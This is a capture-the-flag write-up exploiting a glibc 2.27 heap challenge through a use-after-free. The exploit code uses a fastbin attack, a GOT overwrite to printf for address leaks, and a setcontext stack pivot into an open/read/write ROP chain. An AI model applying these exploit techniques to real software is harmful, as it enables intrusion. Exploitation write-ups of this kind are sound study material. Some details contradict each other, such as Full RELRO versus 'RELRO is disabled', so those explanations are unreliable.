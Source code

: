# Linker Revenge

### Overview

This is heap pwn challenge with the GLIBC given 2.27, the security checks:-

```r
❯ file linker_revenge
linker_revenge: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=af19ec882ea7b9ada3b35ae3712abbbf109e5dfe, not stripped
❯ checksec linker_revenge
[*] '/home/d4mianwayne/Pwning/CTFs/3kCTF/linker_revenge'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
❯ seccomp-tools dump ./linker_revenge
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x09 0xc000003e  if (A != ARCH_X86_64) goto 0011
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x06 0xffffffff  if (A != 0xffffffff) goto 0011
 0005: 0x15 0x04 0x00 0x00000000  if (A == read) goto 0010
 0006: 0x15 0x03 0x00 0x00000001  if (A == write) goto 0010
 0007: 0x15 0x02 0x00 0x00000005  if (A == fstat) goto 0010
 0008: 0x15 0x01 0x00 0x0000000a  if (A == mprotect) goto 0010
 0009: 0x15 0x00 0x01 0x00000101  if (A != openat) goto 0011
 0010: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0011: 0x06 0x00 0x00 0x00000000  return KILL

```

Since Seccomp is enabled, we will do an Open/Read/Write ROP chain to read the flag after getting the RIP control.

### Vulnerability

The vulnerability relies in the `edit_page` function, there exists a UAF vulnerability which can be used to do tamper the metadata of an already `free`'d chunk.

### Exploitation

To exploit this challenge, first off, we take advantage of the fastbin attack, to do so, we first fill the tcache bins of the same size and then malloc 2 chunks and free those chunk

```py
for i in range(7):
	new(0x68)
	delete(0)
```
For insance let name them chunk A and chunk B respectively. Upon free'ing the chunk A & B, we overwrote the `chunk[1]->fd = fake_fasbin_chunk` since the chunk A & B size is 0x71, we can overwrite the Chunk A's fd to the address `0x6020bd` which proposed a structure of a fastbin chunk.

Fastbin = [chunk A, 0x6020bd]

Now, that being said, doing so, in next allocation, we get chunk A and the next will give us the ability to overwrite data stored at `0x6020bd + 0x10` and beyond. Since there's a `page` array stored at the BSS section along with the `page_size` table which is used to store the size of the chunks allocated, we will overwrite the `page` array with our desired addresses:-

```py
payload  = b'AAA'
payload += p64(0) * 2
payload += p32(0x68) * 8 # size -> int
payload += p32(1) * 3 + p32(0) * 5
payload += p64(elf.got['free']) # ptr[0]
payload += p64(0x6020e0) # ptr[1] = &page_size

edit(0, payload)
```
Here, we overwrite the `page_size` table with the `0xff` values and the flag variables and then make the `page` array as of following:-

```py
page = [free@got, 0x6020e0]
```
> The `0x6020e0` addres points to the 3rd index, 4th element of the `page` array on the BSS.

Now, since RELRO is disabled, we can overwrite the `free@got`. Since there's no `show` function, what we will do is make use of `free@got` i.e overwrite it with the `printf` to propogate a FSB to get the address from the program stack:-

```py
edit(0, p64(elf.plt['printf'])) # ptr[0] -> free@got -> printf@plt
new(0x68) # chunk 2
edit(3, "%19$p\n") # FSB
```
Now, when we do `delete(3)`, it will trigger the FSB and we will get the address stored at the 19th index:-

```py
delete(3) # free(chunk[3]) -> %19$p -> printf("%19$p")

libc.address = int(p.recvline().strip(), 16) - libc.symbols['__libc_start_main'] - 231
log.info(f"LIBC:   {hex(libc.address)}")
```

Now, we will again overwrite the `page_size` table, this time with 

```py
payload  = p32(0x68) * 8 # size > int
payload += p32(1) * 3 + p32(0) * 5 # flags -> int
payload += p64(elf.got["free"]) # ptr[0] = free@got
payload += p64(0x6020e0)        # ptr[1] = page_size
payload += p64(0x602138)        # *ptr
edit(1, payload)
```

Page table looks like:-

```py
page_array = [free@got, 0x6020e0, 0x602138]
```

Also, since seccomp is enabled and there's no way to get the shell itself, we also need to leak the heap address, luckily the FSB is of the use here, we will just leak the address of the heap pointer:-

```py
new(0x70) # 3
new(0x70) # 4

delete(2) # free(chunk2) -> printf(&chunk2)
```

Now, we will overwrite the `free@got` with the `setcontext + 53` to peform a stack pivot to read the flag file, the stack pivot will make the `rsp` points to the `heap` chunk where our ROP chain would be stored :D

```py
edit(1, p64(libc.symbols["setcontext"] + 0x35)) # ptr[1] == __free_hook => setcontexr + 53
```
We need to make the rdi points to the certain address, such that during the call to `setcontext + 53` will make the registers point to the right address, exactly where we want them to be:-

```r
0x7f12c88450a5 <setcontext+53>:  mov    rsp,QWORD PTR [rdi+0xa0]
0x7f12c88450ac <setcontext+60>:  mov    rbx,QWORD PTR [rdi+0x80]
0x7f12c88450b3 <setcontext+67>:  mov    rbp,QWORD PTR [rdi+0x78]
0x7f12c88450b7 <setcontext+71>:  mov    r12,QWORD PTR [rdi+0x48]
0x7f12c88450bb <setcontext+75>:  mov    r13,QWORD PTR [rdi+0x50]
0x7f12c88450bf <setcontext+79>:  mov    r14,QWORD PTR [rdi+0x58]
0x7f12c88450c3 <setcontext+83>:  mov    r15,QWORD PTR [rdi+0x60]
0x7f12c88450c7 <setcontext+87>:  mov    rcx,QWORD PTR [rdi+0xa8]
0x7f12c88450ce <setcontext+94>:  push   rcx
0x7f12c88450cf <setcontext+95>:  mov    rsi,QWORD PTR [rdi+0x70]
0x7f12c88450d3 <setcontext+99>:  mov    rdx,QWORD PTR [rdi+0x88]
0x7f12c88450da <setcontext+106>: mov    rcx,QWORD PTR [rdi+0x98]
0x7f12c88450e1 <setcontext+113>: mov    r8,QWORD PTR [rdi+0x28]
0x7f12c88450e5 <setcontext+117>: mov    r9,QWORD PTR [rdi+0x30]
0x7f12c88450e9 <setcontext+121>: mov    rdi,QWORD PTR [rdi+0x68]
0x7f12c88450ed <setcontext+125>: xor    eax,eax
0x7f12c88450ef <setcontext+127>: ret 

```

The following address/values would be stored:-

```py
payload = b''
payload += b'flag\x00\x00\x00\x00' + p64(0xffffffffffffff9c) # rdi + 0x60 --> r15, rdi
payload += p64(heap_base + 0x14b0) + p64(0) # rdi + 0x70 --> rsi, rbp
payload += p64(0) + p64(0) # rdi + 0x80 --> rbx, rdx
payload += p64(0) + p64(0) # rdi + 0x90 --> XXX, rcx
payload += p64(heap_base + 0x17d0 - 8) + p64(pop_rax) # rdi + 0xa0 --> rsp,

# Store the payload, one after another
edit(3, payload)
```

Now, now, we will edit the `page` array again to make the 4th element point next to the ROP chain, such that once `edit` would be called next, it will be able to do the same


```py
payload  = p32(0xfff) * 8
payload += p32(1) * 5 + p32(0) * 3
payload += p64(elf.got["free"])
payload += p64(0x6020e0)
payload += p64(heap_base + 0x14b0 - 0x60) # ptr[2]


edit(1, payload)
```
Now, doing that so, we will have the `ptr[2]` pointing to the `heap - 0x60`, that is to the point where the next time, once edit is called will make the ROP chain complete:-

```py
# openat(0, "flag", 0)
payload = p64(pop_rax)
payload += p64(257)
payload += p64(syscall)

# read(0, heap_base, 0x40)
payload += p64(pop_rax)
payload += p64(0)
payload += p64(pop_rdi)
payload += p64(3)
payload += p64(pop_rsi)
payload += p64(heap_base)
payload += p64(pop_rdx)
payload += p64(0x40)
payload += p64(syscall)

# write(1, heap_base, 0x40)
payload += p64(pop_rax)
payload += p64(1)
payload += p64(pop_rdi)
payload += p64(1)
payload += p64(pop_rsi)
payload += p64(heap_base)
payload += p64(pop_rdx)
payload += p64(0x40)
payload += p64(syscall)

edit(4, payload)
```

Now, delete the page[2] chunk, such that:-

```
free(page[2]) -> __free_hook(ptr[2]) -> setcontext + 53 :  rdi => ptr[2]
```

```py
delete(3)
```
Get the flag :D